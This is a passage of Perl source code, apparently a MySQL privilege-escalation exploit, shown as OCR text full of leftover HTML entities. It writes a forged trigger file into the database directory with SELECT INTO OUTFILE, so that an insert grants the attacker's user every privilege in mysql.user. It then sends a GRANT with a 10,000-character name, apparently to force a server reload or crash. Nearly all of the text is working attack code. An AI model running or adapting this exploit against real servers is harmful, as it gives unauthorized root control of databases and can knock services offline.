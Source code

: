 } else {

$inject =

&quot;select &amp;apos;TYPE=TRIGGERS&amp;apos; into outfile&amp;apos;&quot;.$folder.$database.&quot;/rootme.TRG&amp;apos; LINES TERMINATED BY &amp;apos; \\ntriggers=\\&amp;apos;CREATE DEFINER=`root`\@`localhost` trigger atk after insert on rootme for each row\\\\nbegin \\\\nUPDATE mysql.user SET Select_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Insert_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Update_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Delete_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Create_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Drop_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Reload_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Shutdown_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Process_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, File_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Grant_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, References_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Index_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Alter_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Show_db_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Super_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Create_tmp_table_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Lock_tables_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Execute_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Repl_slave_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Repl_client_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Create_view_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Show_view_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Create_routine_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Alter_routine_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Create_user_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Event_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, Trigger_priv=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, ssl_type=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, ssl_cipher=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, x509_issuer=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, x509_subject=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, max_questions=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, max_updates=\\\\\\&amp;apos;Y\\\\\\&amp;apos;, max_connections=\\\\\\&amp;apos;Y\\\\\\&amp;apos; WHERE User=\\\\\\&amp;apos;$user\\\\\\&amp;apos;;\\\\nend\\&amp;apos;\\nsql_modes=0\\ndefiners=\\&amp;apos;root\@localhost\\&amp;apos;\\nclient_cs_names=\\&amp;apos;latin1\\&amp;apos;\\nconnection_cl_names=\\&amp;apos;latin1_swedish_ci\\&amp;apos;\\ndb_cl_names=\\&amp;apos;latin1_swedish_ci\\&amp;apos;\\n&amp;apos;;&quot;;

}

print $inject;#exit;

$inject2 =

&quot;SELECT &amp;apos;TYPE=TRIGGERNAME\\ntrigger_table=rootme;&amp;apos; into outfile &amp;apos;&quot;.$folder.$database.&quot;/atk.TRN&amp;apos; FIELDS ESCAPED BY &amp;apos;&amp;apos;&quot;;

my $dbh = DBI-&gt;connect(&quot;DBI:mysql:database=$database;host=$target;&quot;,

                      &quot;$user&quot;, &quot;$password&quot;,

                      {&amp;apos;RaiseError&amp;apos; =&gt; 0});

eval { $dbh-&gt;do(&quot;DROP TABLE rootme&quot;) };

$dbh-&gt;do(&quot;CREATE TABLE rootme (rootme VARCHAR(256));&quot;);

$dbh-&gt;do($inject);

$dbh-&gt;do($inject2);

$a = &quot;A&quot; x 10000;

$dbh-&gt;do(&quot;grant all on $a.* to &amp;apos;user&amp;apos;\@&amp;apos;%&amp;apos; identified by &amp;apos;secret&amp;apos;;&quot;);

sleep(3);
